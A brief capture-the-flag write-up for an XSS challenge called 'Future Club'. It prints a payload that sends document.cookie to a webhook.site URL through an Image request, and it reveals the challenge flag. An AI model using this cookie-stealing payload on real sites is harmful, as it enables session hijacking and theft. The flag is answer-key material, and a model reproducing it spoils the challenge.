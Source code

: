 # Web: Cross Site Scripting: Future Club

Get the flag from ctf-05.

We first type our script </script>alert(1)</script> then we notice that we need to fill in every blank input.
We fill in and we observe that we inputs double double and then shrink.
So, we need the webhook.

Then we make our script: 
```
Image().src='https://webhook.site/35143c47-3cee-4fa8-bf7d-7485e152403f?cookie='+document.cookie
```

And then we get our flag: **SSS{future_club_obfuscation}**.
